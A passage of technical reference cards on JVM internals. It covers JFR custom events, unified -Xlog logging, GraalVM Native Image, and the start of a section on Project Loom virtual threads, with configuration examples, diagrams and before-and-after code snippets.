| 4   | "JFR replaces distributed tracing" | JFR is per-JVM. It does not track requests across services. Use with tracing, not instead of.         |
| 5   | "@StackTrace is always useful"     | Stack traces add ~1us per event. At 100K events/sec = 100ms/sec = 10% overhead. Disable on hot paths. |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-044 JFR Profiling - Always-On Production Use - basic JFR usage and built-in events
- JVM-052 JIT Compilation Tiers (C1 and C2) - understanding how JIT optimizes away disabled events

**THIS:** JVM-088 JFR Custom Events and Continuous Profiling

**Next steps:**

- JVM-089 Unified JVM Logging (-Xlog) - complementary logging for non-event diagnostics
- JVM-098 Build a JVM Dashboard - Phase 3 (Diagnosis) - JFR streaming feeds dashboard

---

**The Surprising Truth:**

JFR's `@Threshold` annotation combined with JIT optimization means you can instrument EVERY method call in a hot path with zero cost for fast calls. If you set `@Threshold("10 ms")` on an event, and the operation completes in 0.5ms (99.9% of the time), the event is never committed - the JIT can even eliminate the `begin()` call in optimized code paths. You only pay the recording cost for the 0.1% of slow operations you actually want to investigate. This "pay for what you catch" model is why JFR can be always-on: you instrument generously but only record anomalies.

**Further Reading:**

- JEP 328: Flight Recorder (open-sourced in JDK 11)
- JEP 349: JFR Event Streaming (JDK 14)
- Marcus Hirt, "JDK Mission Control and JFR" - tutorial and API guide

**Revision Card:**

1. Custom event: extend `jdk.jfr.Event`, annotate fields, `begin()` -> work -> `commit()`. <1% overhead. Safe always-on.
2. @Threshold filters noise: only record events slower than threshold. Fast ops have zero cost (JIT optimizes away).
3. JFR streaming (JDK 14+) exports events to Prometheus/Grafana in real-time. Replaces APM agent for JVM-specific metrics.

**BAD:**

```java
// Logging-based profiling (high overhead, no correlation)
long start = System.nanoTime();
result = cache.get(key);
long dur = System.nanoTime() - start;
logger.info("cache.get took {}ms for key={}",
    dur/1_000_000, key); // String alloc every call
// 100K calls/sec = 100K log lines/sec
// 5% overhead from string formatting + I/O
// No correlation with GC or JIT events
```

**GOOD:**

```java
@Label("Cache Lookup")
@Category("Application")
@Threshold("5 ms") // Only record slow lookups
@StackTrace(false) // Hot path - no stack
public class CacheLookupEvent extends Event {
    @Label("Key") String key;
    @Label("Hit") boolean hit;
    @Label("Size") int cacheSize;
}
// Usage:
CacheLookupEvent evt = new CacheLookupEvent();
evt.begin();
result = cache.get(key);
evt.key = key;
evt.hit = (result != null);
evt.cacheSize = cache.size();
evt.commit(); // <100ns if > threshold; 0 if not
```

---

---

# JVM-089 Unified JVM Logging (-Xlog)

**TL;DR** - `-Xlog` provides a single framework controlling ALL JVM internal logging (GC, JIT, classloading, threading) through tags, levels, outputs, and decorators - replacing dozens of legacy flags with one consistent syntax.

---

### 🔥 Problem Statement

A team needs GC logs for a production diagnosis. One engineer uses `-verbose:gc`. Another uses `-XX:+PrintGCDetails -XX:+PrintGCDateStamps`. A third uses `-Xloggc:gc.log`. None realize these are deprecated legacy flags partially replaced by `-Xlog` (JDK 9+). The inconsistency means different services have different log formats, different retention policies, and some have no GC logs at all. Unified logging (`-Xlog`) replaces ALL of these with a single, consistent, composable framework covering not just GC but all JVM subsystems.

---

### 📜 Historical Context

Before JDK 9, each JVM subsystem had its own logging flags: `-XX:+PrintCompilation` (JIT), `-XX:+PrintGCDetails` (GC), `-XX:+TraceClassLoading` (classloading). These flags were inconsistent in format, output destination, and decoration (timestamps, thread IDs). JEP 158 (JDK 9) introduced Unified JVM Logging (`-Xlog`), providing a single framework with consistent syntax for all subsystems. Legacy flags were deprecated in JDK 9 and removed in JDK 17.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Tags identify subsystems:** Every log message has one or more tags (gc, jit, class, thread, etc.). Tags are the filter mechanism.
2. **Levels control verbosity:** trace/debug/info/warning/error. Each tag+level combination can be independently enabled.
3. **Outputs are composable:** stdout, stderr, file (with rotation). Multiple outputs simultaneously. Different tags to different files.

**DERIVED DESIGN:**

These invariants mean: (1) one `-Xlog` expression replaces dozens of legacy flags, (2) GC logs, JIT logs, and class loading logs can all be configured in a single command, (3) rotation and retention are built-in (no external logrotate needed for JVM logs).

**THE TRADE-OFF:**

**Gain:** Consistency across subsystems. Composable configuration. Built-in rotation. Deprecates 50+ legacy flags.

**Cost:** New syntax to learn. Some legacy flag behaviors not perfectly mapped. Requires JDK 9+ (no backport to 8).

---

### 🧠 Mental Model

> `-Xlog` is like a building's centralized security camera system. Each camera (tag) covers one area (GC, JIT, classloading). You control which cameras record (levels), where footage goes (outputs), and what timestamp appears on each frame (decorators). One control panel replaces individual switches for each camera.

- "Cameras" -> tags (gc, jit, class, thread, os, etc.)
- "Recording quality" -> levels (trace through error)
- "Footage destination" -> outputs (stdout, file, stderr)
- "Timestamp on frame" -> decorators (time, uptime, pid, tid)
- "Control panel" -> single `-Xlog:` expression

**Where this analogy breaks down:** security cameras are passive. JVM logging can have performance impact at trace/debug levels. Also, you can have multiple independent `-Xlog` arguments simultaneously, each routing different tags to different outputs.

---

### 🧩 Components

- **Tags:** Identify subsystem: `gc`, `gc+heap`, `gc+phases`, `jit`, `class+load`, `thread`, `os`, `safepoint`, etc.
- **Levels:** `off` < `error` < `warning` < `info` < `debug` < `trace`. Each tag can be set independently.
- **Outputs:** `stdout`, `stderr`, `file=<path>` with rotation: `filesize=50m,filecount=5`.
- **Decorators:** Prefix metadata on each line: `time` (ISO timestamp), `uptime` (ms since start), `pid`, `tid`, `tags`, `level`.
- **Wildcard:** `*` matches all tags. `-Xlog:all=warning` sets all tags to warning level.

```text
-Xlog syntax:
  -Xlog:TAG[+TAG...][*][=LEVEL][:OUTPUT[:DECORATORS]]

Examples:
  -Xlog:gc*=info:file=gc.log:time,tags,level
    All gc-related tags at info+, to gc.log, with
    ISO time + tag names + level decorators

  -Xlog:gc*=info:stdout:time
  -Xlog:jit+compilation=debug:file=jit.log
  -Xlog:class+load=info:file=class.log

Tag hierarchy (gc example):
  gc           -> top-level GC events
  gc+heap      -> heap sizing changes
  gc+phases    -> GC phase timings
  gc+age       -> tenuring distribution
  gc+ergo      -> ergonomic decisions
  gc+humongous -> humongous allocations (G1)
```

```mermaid
flowchart TD
    A[-Xlog Expression] --> B[Tags: gc, jit, class...]
    A --> C[Level: info, debug, trace...]
    A --> D[Output: stdout, file, stderr]
    A --> E[Decorators: time, uptime, pid, tid]
    B --> F[Filter: which messages]
    C --> G[Verbosity: how detailed]
    D --> H[Destination: where written]
    E --> I[Metadata: what prefixed]
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** `-Xlog` is a single JVM flag that controls all internal JVM logging. Instead of memorizing dozens of different flags for GC, JIT, classloading, you use one consistent syntax: `-Xlog:WHAT=LEVEL:WHERE:DECORATORS`.

**Level 2 - How to use it:** For GC logs in production: `-Xlog:gc*=info:file=gc.log:time,tags,level,filesize=100m,filecount=5`. For JIT: `-Xlog:jit+compilation=info:file=jit.log`. Multiple `-Xlog` arguments can coexist.

**Level 3 - How it works:** At JVM startup, `-Xlog` expressions are parsed into a routing table: tag+level -> output. Each log statement in JVM source code has a tag set. When executed, the routing table determines if the message should be written and where. The JIT can eliminate dead log paths (disabled tags become zero-cost).

**Level 4 - Production mastery:** Always-on logging strategy: (1) `gc*=info` to dedicated file with rotation (diagnose GC issues). (2) `safepoint=info` to same or separate file (TTSP issues). (3) `jit+compilation=info` to jit.log (JIT issues). (4) `class+load=debug` temporarily for classloader debugging. At debug/trace levels, performance impact is significant - use only for short diagnostic windows. The `gc+ergo=debug` tag reveals ergonomic decisions (IHOP changes, resize decisions) that explain unexpected GC behavior.

---

### ⚙️ How It Works

**Phase 1 - Configuration Parsing:** At startup, JVM parses all `-Xlog` arguments into internal routing table.

**Phase 2 - Log Message Generation:** JVM internal code calls `log_info(gc, heap)("message %d", value)`. This embeds both the tag set (gc, heap) and level (info).

**Phase 3 - Routing Decision:** For each message, check routing table: is (gc+heap, info) enabled for any output? If not, skip formatting entirely (zero-cost for disabled messages).

**Phase 4 - Formatting and Output:** If enabled, format message string, prepend decorators, write to configured output(s). File output handles rotation (close/open when size exceeded).

```text
Routing table (internal representation):
  gc*=info       -> stdout (time,tags)
  gc*=info       -> file=gc.log (time,level)
  safepoint=info -> file=gc.log (time)
  jit*=debug     -> file=jit.log (time,tags)
  class*=off     -> (disabled)

  Message: log_info(gc, phases)("pause 45ms")
  Check: gc+phases at info -> matches gc*=info
  Action: write to stdout AND gc.log

  Message: log_debug(gc, ergo)("IHOP 45%")
  Check: gc+ergo at debug -> gc*=info requires info+
  Action: debug < info threshold -> SKIP (no cost)
```

```mermaid
sequenceDiagram
    participant JVM as JVM Internal Code
    participant RT as Routing Table
    participant Out1 as stdout
    participant Out2 as gc.log
    JVM->>RT: log(gc+phases, info, "pause 45ms")
    RT->>RT: check gc*=info rules
    RT->>Out1: write with decorators
    RT->>Out2: write with decorators
    JVM->>RT: log(gc+ergo, debug, "IHOP changed")
    RT->>RT: check: debug < info threshold
    RT->>RT: SKIP (zero cost)
```

---

### 🚨 Failure Modes

**Failure 1 - Disk Exhaustion from Trace Logging:**

**Symptom:** Service runs out of disk. Investigation reveals 50GB of JVM log files that were never rotated.

**Root cause:** `-Xlog:gc*=trace:file=gc.log` without rotation parameters. Trace-level GC logging produces GB/hour on active services.

**Diagnostic:**

```bash
# Check log file sizes:
ls -lh /var/log/jvm/gc*.log
# If > 1GB and growing: missing rotation
```

**Fix:** Always include rotation: `-Xlog:gc*=info:file=gc.log::filesize=100m,filecount=5`. Use info level in production (trace only for short debug sessions).

**Failure 2 - Performance Impact from Debug Tags:**

**Symptom:** 5-10% throughput regression after adding JVM logging. Reverts when logging removed.

**Root cause:** Debug or trace level on high-frequency tags (gc+tlab=debug produces output for every TLAB refill - millions per second).

**Diagnostic:**

```bash
# Count log lines per second:
wc -l gc.log # check growth rate
# If > 10K lines/sec: too verbose
```

**Fix:** Reduce to info level. Debug/trace only for specific investigation windows. Use `-Xlog:gc+tlab=off` to explicitly silence high-volume tags.

---

### 🔬 Production Reality

The migration from legacy GC flags to `-Xlog` typically happens during JDK 11 or 17 upgrades. Common pitfall: teams copy legacy flags (`-XX:+PrintGCDetails`) into JDK 17 configuration - these are silently ignored, producing NO GC logs. The team discovers this months later during an incident when GC logs are needed but absent. Recommended: validate that GC logs are being produced as part of service health checks. Include a startup check that verifies the log file exists and is growing.

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | -Xlog (unified)     | Legacy flags          | JFR Events            |
| -------------- | ------------------- | --------------------- | --------------------- |
| JDK version    | 9+                  | 8 and earlier         | 11+ (free)            |
| Consistency    | All subsystems same | Each subsystem unique | Event-based (diff.)   |
| Rotation       | Built-in            | -Xloggc only          | Ring buffer (maxsize) |
| Real-time view | tail -f             | tail -f               | JMC or streaming API  |
| Analysis tools | GCViewer, GCEasy    | Same tools            | JMC, JFR analytics    |

---

### ⚡ Decision Snap

**USE -Xlog ALWAYS WHEN:**

- JDK 9+ in use (all modern deployments).
- Need GC, JIT, safepoint, or classloading diagnostics.
- Production services (always-on with rotation).

**COMBINE WITH JFR WHEN:**

- Need event-level correlation (JFR events + Xlog context).
- Want machine-parseable records (JFR) alongside human-readable logs (Xlog).

**KEEP LEGACY FLAGS WHEN:**

- Still on JDK 8 (no unified logging available).
- Migration in progress (test -Xlog output matches expected format before removing legacy).

---

### ⚠️ Top Traps

| #   | Misconception                         | Reality                                                                                                                  |
| --- | ------------------------------------- | ------------------------------------------------------------------------------------------------------------------------ |
| 1   | "Legacy flags still work on JDK 17"   | Most are silently ignored. You get NO output without realizing it. Always use -Xlog on JDK 9+.                           |
| 2   | "-Xlog:gc gives full GC detail"       | `gc` alone is top-level only. Use `gc*` to include all GC sub-tags (phases, heap, age, ergo).                            |
| 3   | "Always use trace level for max info" | Trace on GC-related tags produces millions of lines. Info is correct for production. Trace only for debug sessions.      |
| 4   | "One -Xlog flag is enough"            | Use multiple: one for GC (file), one for safepoints (file), one for startup (stdout). Composable routing is the feature. |
| 5   | "File rotation is automatic"          | You must explicitly add `filesize=X,filecount=Y`. Without it, files grow unbounded.                                      |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-046 GC Logging and Analysis - understand what GC logs contain and how to read them
- JVM-041 jcmd - The Swiss Army Knife - jcmd can adjust log levels at runtime

**THIS:** JVM-089 Unified JVM Logging (-Xlog)

**Next steps:**

- JVM-088 JFR Custom Events and Continuous Profiling - JFR complements -Xlog with event-based recording
- JVM-095 JVM Fleet Observability - Key Metrics - GC logs feed fleet metrics pipelines

---

**The Surprising Truth:**

You can change `-Xlog` configuration at runtime without restarting the JVM. `jcmd <pid> VM.log list` shows current configuration. `jcmd <pid> VM.log output="file=debug.log" what="gc*=debug"` adds a new output at runtime. This means you can add debug-level GC logging to a running production JVM for 5 minutes to capture a specific issue, then remove it - without any restart. This is dramatically more powerful than legacy flags which required restart to change.

**Further Reading:**

- JEP 158: Unified JVM Logging (design and rationale)
- JEP 271: Unified GC Logging (GC-specific integration)
- OpenJDK wiki: "Unified Logging" - complete tag and decorator reference

**Revision Card:**

1. Syntax: `-Xlog:TAG*=LEVEL:OUTPUT:DECORATORS:ROTATION`. Example: `-Xlog:gc*=info:file=gc.log:time,tags::filesize=100m,filecount=5`.
2. Always use `-Xlog` on JDK 9+. Legacy flags silently ignored on JDK 17+. Validate GC logs are actually produced.
3. Runtime adjustment: `jcmd <pid> VM.log output="file=debug.log" what="gc*=debug"` - add/remove log outputs without restart.

**BAD:**

```bash
# Legacy flags on JDK 17 - SILENTLY IGNORED
java -XX:+PrintGCDetails \
  -XX:+PrintGCDateStamps \
  -Xloggc:gc.log \
  -jar service.jar
# Result: NO gc.log produced. No warning.
# Discovered 3 months later during incident.
```

**GOOD:**

```bash
# Unified logging with rotation
java \
  -Xlog:gc*=info:file=gc.log:time,tags::filesize=100m \
  -Xlog:safepoint=info:file=gc.log:time \
  -Xlog:gc+ergo=debug:file=gc-ergo.log:time::filesize=50m \
  -jar service.jar
# Always produces output. Built-in rotation.
# Verify: ls -la gc.log (should exist + grow)
```

---

---

# JVM-090 Ahead-of-Time Compilation (GraalVM Native)

**TL;DR** - GraalVM Native Image compiles Java to executables at build time, eliminating JIT warmup and reducing startup to milliseconds - trading peak throughput for instant readiness.

---

### 🔥 Problem Statement

A serverless Java function takes 3-5 seconds to handle its first request (JVM startup + classloading + JIT warmup). The platform bills per 100ms. Cold starts cost 30-50x more than warm invocations and violate the 500ms latency SLA. Serverless platforms favor Go/Rust with instant startup. Native Image compilation produces a binary that starts in 50ms with full functionality on first request - making Java competitive in serverless and CLI scenarios where startup time dominates total execution time.

---

### 📜 Historical Context

GraalVM Native Image (Oracle, 2018) applied decades of research in ahead-of-time (AOT) compilation to Java. Earlier AOT attempts (Excelsior JET, GNU GCJ) existed but lacked the ecosystem integration to succeed. GraalVM's approach uses a "closed-world assumption" - analyzing all reachable code at build time via points-to analysis. This produces native binaries with no JVM dependency. The trade-off: no runtime class loading, limited reflection (must be configured), no JIT optimization. Quarkus (Red Hat, 2019) and Micronaut (OCI, 2018) were designed ground-up for Native Image compatibility.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Closed-world assumption:** All code reachable at runtime must be known at build time. No dynamic class loading, no unreflected reflection, no unregistered JNI.
2. **No JIT = no adaptive optimization:** Peak throughput is lower than JIT-optimized code (typically 10-30% less). The binary cannot specialize based on runtime profiles.
3. **Build-time initialization replaces runtime:** Static initializers and class loading happen during build. Runtime starts with pre-initialized heap snapshot (image heap).

**DERIVED DESIGN:**

These invariants mean: (1) reflection, proxies, and resources must be declared in configuration files at build time, (2) frameworks must be "native-aware" or use build-time processing (Quarkus, Micronaut), (3) the trade-off is startup/memory vs peak throughput.

**THE TRADE-OFF:**

**Gain:** 50ms startup (vs 3-5s). 50MB RSS (vs 300-500MB). Instant peak performance (no warmup). Container image 50MB (vs 300MB with JDK).

**Cost:** 10-30% lower peak throughput. Long build times (2-10 min). No runtime reflection without configuration. Limited debugging. Build-time complexity.

---

### 🧠 Mental Model

> Traditional JVM is like a Formula 1 car that needs 3 laps to warm up tires and engine (JIT warmup). Peak speed is phenomenal but the warm-up laps are wasted time. Native Image is like a sports car that is race-ready instantly from ignition - good performance from the start but never quite reaches F1 peak speed. For short races (serverless, CLI), instant readiness wins. For long races (24/7 services), peak speed wins.

- "F1 warm-up laps" -> JIT warmup (seconds to minutes)
- "Peak speed after warm-up" -> JIT-optimized throughput
- "Sports car instant start" -> Native Image (50ms startup)
- "Never reaches F1 speed" -> 10-30% lower peak throughput
- "Short race" -> serverless, CLI (startup dominates)
- "Long race" -> 24/7 service (throughput dominates)

**Where this analogy breaks down:** the F1 car's warm-up is fixed time regardless of race length. JVM warmup amortizes to near-zero for long-running services. Also, native images have a fixed ceiling - they cannot get faster over time, while JIT continuously reoptimizes.

---

### 🧩 Components

- **Points-to analysis:** Build-time static analysis determining all reachable code paths. Eliminates dead code. Input to compilation.
- **Image heap:** Pre-initialized Java heap baked into the binary. Objects created during build-time initialization are available at runtime start (zero-cost initialization).
- **Substrate VM:** Minimal runtime replacing HotSpot. Provides GC (Serial or G1), threading, and exception handling. No JIT, no classloading.
- **Reflection configuration:** JSON files declaring which classes/methods are accessed reflectively. Required because reflection bypasses static analysis.
- **Build-time initialization:** Classes whose static initializers can be safely run at build time are initialized then. Their state is in image heap.

```text
Comparison: JVM vs Native Image startup

JVM mode:
  t=0ms:    JVM starts, loads classes
  t=500ms:  Framework initializes (Spring DI)
  t=2000ms: First request handled (interpreted)
  t=30s:    JIT compiled - peak throughput
  Startup: 2-5s, Peak: 100% throughput

Native Image mode:
  t=0ms:    Binary starts, image heap ready
  t=50ms:   First request handled (AOT compiled)
  t=50ms:   Already at peak (no warmup)
  Startup: 50ms, Peak: 70-90% of JIT throughput

Memory comparison:
  JVM:          300-500MB RSS (JVM + metaspace + heap)
  Native Image: 30-80MB RSS (no JVM overhead)
```

```mermaid
flowchart LR
    subgraph Build Time
        A[Java Source] --> B[Points-to Analysis]
        B --> C[AOT Compilation]
        C --> D[Native Binary]
    end
    subgraph Runtime
        D --> E[50ms startup]
        E --> F[Serve requests immediately]
    end
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** GraalVM Native Image compiles your Java application into a standalone executable (like a Go or Rust binary). It starts in milliseconds instead of seconds, uses much less memory, but has some limitations (no dynamic classloading, reflection needs configuration).

**Level 2 - How to use it:** Use frameworks designed for Native Image (Quarkus, Micronaut, Spring Boot 3 with AOT). Build: `./mvnw package -Pnative`. Test thoroughly - some libraries are incompatible (byte code generation, unregistered reflection). Build takes 2-10 minutes.

**Level 3 - How it works:** At build time, Native Image performs a whole-program analysis starting from main(). It traces all reachable code paths (points-to analysis), compiles them to machine code, and snapshot-initializes the heap. The resulting binary includes the application + a minimal runtime (SubstrateVM) + pre-initialized state. No JDK needed at runtime.

**Level 4 - Production mastery:** Critical decisions: (1) Is startup time your bottleneck? If service runs 24/7, JIT throughput likely wins. If serverless/CLI, native wins. (2) Is your dependency graph native-compatible? Libraries using reflection/proxies/classloading heavily (Hibernate, Spring without AOT) require extensive configuration or alternatives. (3) Build time: 2-10 minutes per build. Acceptable for CI/CD but slow for development iteration. Use JVM mode for development, native for deployment.

---

### ⚙️ How It Works

**Phase 1 - Entry Point Analysis:** Start from main(). Build call graph of all reachable methods.

**Phase 2 - Points-to Analysis:** For each variable/field, determine all possible types it can hold at runtime (flow-sensitive). This enables dead code elimination and devirtualization.

**Phase 3 - Build-time Initialization:** Run static initializers of safe classes. Snapshot their state into the image heap.

**Phase 4 - AOT Compilation:** Compile all reachable methods to native machine code. Apply optimizations (inlining, escape analysis) based on static analysis.

**Phase 5 - Linking:** Produce platform-specific executable containing compiled code, image heap, and SubstrateVM runtime.

```text
Build process:
  Source -> Analysis -> Compilation -> Binary

  Points-to analysis output:
    - Reachable classes: 2,500 (from 10,000)
    - Reachable methods: 15,000 (from 80,000)
    - Dead code eliminated: 80%+

  Image composition:
    [machine code: 30MB] +
    [image heap: 15MB] +
    [SubstrateVM: 5MB] =
    [binary: ~50MB]

  vs JDK deployment:
    [JDK: 200MB] + [app.jar: 50MB] +
    [runtime heap: 256MB] = 500MB+
```

```mermaid
sequenceDiagram
    participant S as Source Code
    participant A as Points-to Analysis
    participant I as Initializer
    participant C as AOT Compiler
    participant B as Native Binary
    S->>A: analyze reachability
    A->>A: trace all paths from main()
    A->>I: safe classes for build-time init
    I->>I: run static initializers
    I->>C: initialized heap + reachable methods
    C->>C: compile all methods to native
    C->>B: link: code + heap + SubstrateVM
```

---

### 🚨 Failure Modes

**Failure 1 - Missing Reflection Configuration:**

**Symptom:** Runtime exception: `ClassNotFoundException` or `NoSuchMethodException` for classes that work fine in JVM mode.

**Root cause:** Library uses reflection to access classes/methods not found by static analysis. Build-time analysis could not see these paths.

**Diagnostic:**

```bash
# Run with agent to detect reflection usage:
java -agentlib:native-image-agent=config-output-dir=conf \
  -jar app.jar
# Exercise all code paths
# Agent produces reflect-config.json
```

**Fix:** Include generated config: `native-image --no-fallback -H:ReflectionConfigurationFiles=conf/reflect-config.json`. Or use framework-provided hints (Quarkus @RegisterForReflection).

**Failure 2 - Build-time Initialization Side Effects:**

**Symptom:** Native binary starts with stale configuration (reads config file at build time, not at deploy time). Or connects to build-machine database at startup.

**Root cause:** Class static initializer runs at BUILD time (reads env vars, files, network from build environment). Those values are baked into the image heap.

**Diagnostic:**

```bash
# Check if class is build-time initialized:
native-image --initialize-at-build-time=... \
  --trace-class-initialization=com.app.Config
```

**Fix:** Mark configuration classes for runtime initialization: `--initialize-at-run-time=com.app.Config`. Move configuration reads from static initializers to runtime methods.

---

### 🔬 Production Reality

The adoption pattern for Native Image: start with serverless functions and CLI tools (clear startup benefit). Expand to Kubernetes-based microservices where faster startup means faster autoscaling and rolling deployments. Avoid for: long-running stateful services where JIT throughput advantage matters (databases, caches, compute-intensive workloads). The break-even point is roughly: if your service restarts less than once per hour and processes sustained traffic, JIT mode likely wins. If it scales to zero, restarts frequently, or needs sub-second cold start, native wins.

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | Native Image    | JVM + JIT       | CRaC (checkpoint) |
| --------------- | --------------- | --------------- | ----------------- |
| Startup         | 50ms            | 3-5s            | 50-200ms          |
| Peak throughput | 70-90% of JIT   | 100% (baseline) | 100% (after warm) |
| Memory (RSS)    | 30-80MB         | 300-500MB       | Same as JVM       |
| Build time      | 2-10min         | Seconds         | Normal + snapshot |
| Reflection      | Config required | Full support    | Full support      |
| Debugging       | Limited         | Full (JDWP)     | Full              |

---

### ⚡ Decision Snap

**USE NATIVE IMAGE WHEN:**

- Startup time is critical (serverless, CLI, autoscaling).
- Memory footprint must be minimal (edge, IoT, high density).
- Application is Native Image-compatible (tested).

**USE JVM + JIT WHEN:**

- Long-running service (throughput > startup).
- Heavy use of reflection/proxies without native-aware framework.
- Development speed matters (fast iteration).

**USE CRaC WHEN:**

- Need JVM benefits + fast startup.
- Application can checkpoint cleanly (no open file handles to external services at snapshot time).
- JDK 21+ with CRaC support.

---

### ⚠️ Top Traps

| #   | Misconception                         | Reality                                                                                                           |
| --- | ------------------------------------- | ----------------------------------------------------------------------------------------------------------------- |
| 1   | "Native = always faster"              | Only startup is faster. Peak throughput is 10-30% lower than JIT (no profile-guided optimization).                |
| 2   | "Any Java app can go native"          | Libraries using reflection, proxies, or classloading need configuration or alternatives. Not plug-and-play.       |
| 3   | "Native Image is GraalVM only"        | GraalVM Native Image is the main implementation, but the binary runs without GraalVM/JDK at runtime (standalone). |
| 4   | "Build once, run anywhere"            | Native binaries are platform-specific. Need separate builds for Linux/macOS/Windows. Cross-compilation limited.   |
| 5   | "Spring Boot works native out of box" | Spring Boot 3+ supports native but many Spring ecosystem libraries need AOT hints. Test thoroughly.               |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-052 JIT Compilation Tiers (C1 and C2) - understand what native image gives up (JIT optimization)
- JVM-073 Java Module System (JPMS) and ClassLoader - native image eliminates classloading at runtime

**THIS:** JVM-090 Ahead-of-Time Compilation (GraalVM Native)

**Next steps:**

- JVM-091 Project Loom and Virtual Thread Scheduling - virtual threads work differently in native image
- JVM-092 JVM Compliance - FIPS, FedRAMP Considerations - native image compliance implications

---

**The Surprising Truth:**

Native Image's "image heap" (pre-initialized objects baked into the binary) is simultaneously its greatest power and greatest foot-gun. If a library's static initializer reads a configuration file during build, that configuration is permanently baked into every deployment of that binary. Changing configuration requires a rebuild. Teams have deployed production binaries containing their build machine's localhost database URL in the image heap, causing mysterious connection failures. The rule: NEVER initialize configuration, credentials, or environment-dependent state at build time.

**Further Reading:**

- GraalVM documentation: "Native Image Basics" - official reference
- JEP 295: Ahead-of-Time Compilation (early exploration, JDK 9)
- Christian Wimmer et al., "Initialize Once, Start Fast" (OOPSLA 2019) - image heap design

**Revision Card:**

1. Native Image: AOT compile Java to standalone binary. 50ms startup, 50MB RSS. 10-30% less peak throughput than JIT.
2. Closed-world assumption: all code must be known at build time. Reflection/proxies need JSON config or framework hints.
3. Use for: serverless, CLI, autoscaling. Avoid for: long-running throughput-critical services (JIT wins there).

**BAD:**

```java
// Static initializer reads config at build time
public class AppConfig {
    // This runs during native-image build!
    static final String DB_URL =
        System.getenv("DATABASE_URL");
    // Baked into binary: build machine's env var
    // Production binary has wrong DB_URL forever
}
```

**GOOD:**

```java
// Runtime initialization for env-dependent config
// native-image flag:
// --initialize-at-run-time=com.app.AppConfig
public class AppConfig {
    private static String dbUrl;
    public static String getDbUrl() {
        if (dbUrl == null) {
            dbUrl = System.getenv("DATABASE_URL");
        }
        return dbUrl;
    }
    // Read at runtime, not build time
}
```

---

---

# JVM-091 Project Loom and Virtual Thread Scheduling

**TL;DR** - Virtual threads (Project Loom, JDK 21) are JVM-scheduled lightweight threads enabling millions of concurrent blocking operations without platform thread memory overhead.

---

### 🔥 Problem Statement

A microservice handles 10,000 concurrent requests, each blocking on a database call for 50ms. With platform threads, this requires 10,000 OS threads (10GB stack memory at 1MB/stack). The OS scheduler degrades above 5,000 threads. Thread pools limit concurrency to 200 threads, creating request queuing. Virtual threads decouple the logical thread (what the programmer writes) from the carrier thread (what the OS schedules), allowing 10,000 concurrent blocking operations on 200 carrier threads with < 100MB overhead.

---

### 📜 Historical Context

Java's thread model mapped 1:1 to OS threads since JDK 1.2 (green threads removed in Solaris port). This forced the "thread pool + async" pattern for high-concurrency servers. Project Loom (started ~2017, preview JDK 19/20, GA JDK 21 via JEP 444) introduces M:N threading - many virtual threads multiplexed onto few carrier (platform) threads. The concept existed in other languages: Go goroutines, Erlang processes, Kotlin coroutines. Loom's innovation: virtual threads use the SAME `Thread` API and work with existing `synchronized` and blocking I/O code (mostly).

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Virtual threads are cheap:** Creation cost ~1us. Stack starts at ~1KB (grows on demand). Can have millions concurrently.
2. **Blocking unmounts, not blocks:** When a virtual thread calls blocking I/O (socket read, sleep, lock), it is unmounted from its carrier thread. The carrier is freed to run another virtual thread.
3. **Carrier threads are the real parallelism:** Number of carrier threads = CPU cores (by default). This is the actual parallelism limit. Virtual threads provide concurrency, not parallelism.

**DERIVED DESIGN:**

These invariants mean: (1) no need for thread pools to limit virtual thread count (create one per task), (2) blocking code style is efficient (no need for reactive/async frameworks for I/O-bound work), (3) CPU-bound work does not benefit (you still have N cores doing work).

**THE TRADE-OFF:**

**Gain:** Simple blocking code handles massive concurrency. No callback hell. No reactive framework complexity. 10,000-1,000,000 concurrent operations.

**Cost:** Pinning (synchronized blocks pin to carrier). Thread-locals consume more memory at scale. CPU-bound workloads see no benefit. Ecosystem maturity evolving.

---

### 🧠 Mental Model

> Platform threads are like taxi drivers (expensive, one per passenger journey). Virtual threads are like bus passengers (many share one bus/carrier). When a passenger sleeps (blocking I/O), they do not occupy the bus - they step off, and another passenger boards. The bus (carrier) is always productive. The city (OS) manages buses (carriers), not individual passengers.

- "Taxi driver" -> platform thread (1:1 with OS thread)
- "Bus" -> carrier thread (ForkJoinPool worker)
- "Passengers" -> virtual threads (lightweight, many per bus)
- "Stepping off bus" -> unmounting during blocking operation
- "City managing buses" -> OS scheduling carrier threads

**Where this analogy breaks down:** real passengers cannot "pause" mid-journey and resume later. Virtual threads save their stack and truly pause/resume. Also, the bus route is not fixed - any carrier can run any virtual thread at any point.

---

### 🧩 Components

- **Virtual thread:** Created via `Thread.ofVirtual().start(runnable)` or `Executors.newVirtualThreadPerTaskExecutor()`. Lightweight, user-mode scheduled.
- **Carrier thread:** Platform thread in the virtual thread scheduler's ForkJoinPool. Default count = `availableProcessors()`. Runs virtual threads.
- **Continuation:** Internal mechanism storing virtual thread's stack. On blocking, stack is saved (unmounted). On resume, stack is restored (mounted on any carrier).
- **Scheduler (ForkJoinPool):** Work-stealing pool managing carrier threads. Assigns runnable virtual threads to available carriers.
- **Pinning:** When a virtual thread holds a `synchronized` monitor, it cannot unmount from its carrier. The carrier is blocked.

```text
M:N threading model (Loom):
  Virtual threads (M):   10,000+
  Carrier threads (N):   = CPU cores (e.g., 8)

  Normal flow:
    VT-1 runs on Carrier-A
    VT-1 calls socket.read() (blocks)
    VT-1 unmounts from Carrier-A (stack saved)
    Carrier-A picks up VT-2 (runs immediately)
    socket.read() completes
    VT-1 scheduled to any free carrier
    VT-1 resumes (stack restored)

  Throughput: limited by carriers (CPU-bound)
  Concurrency: limited by memory for VT stacks
    10K VTs x 10KB stack = 100MB
    vs 10K platform threads x 1MB = 10GB
```

```mermaid
flowchart TD
    subgraph Virtual Threads
        VT1[VT-1: running]
        VT2[VT-2: blocked on I/O]
        VT3[VT-3: waiting to run]
        VT4[VT-4: blocked on I/O]
    end
    subgraph Carrier Pool
        C1[Carrier 1]
        C2[Carrier 2]
    end
    VT1 --> C1
    VT3 --> C2
